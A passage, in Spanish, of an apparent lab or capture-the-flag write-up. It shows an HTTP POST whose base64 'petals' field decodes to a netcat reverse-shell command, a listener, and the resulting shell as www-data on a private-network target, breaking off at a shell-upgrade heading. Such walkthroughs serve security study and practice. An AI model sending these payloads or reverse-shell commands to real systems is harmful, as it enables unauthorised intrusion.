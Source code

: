 <figure><img src="../../.gitbook/assets/image (369).png" alt=""><figcaption></figcaption></figure>

Vemos que se esta ejecutando, por lo que vamos a generar una `reverse shell` para obtener acceso al servidor.

```
POST / HTTP/1.1
Host: 192.168.5.6
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.5.6/
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Origin: http://192.168.5.6
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

petals=ZXhlYygnbmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNS40IDc3NzcnKQ==
```

Este valor `ZXhlYygnbmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNS40IDc3NzcnKQ==` es igual a `exec('nc -e /bin/bash <IP> <PORT>')`

Antes de enviarlo nos pondremos a la escucha.

```shell
nc -lvnp <PORT>
```

Ahora si enviamos la peticion y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.4] from (UNKNOWN) [192.168.5.6] 56492
whoami
www-data
```

Vemos que hemos obtenido acceso mediante el usuario `www-data` por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)
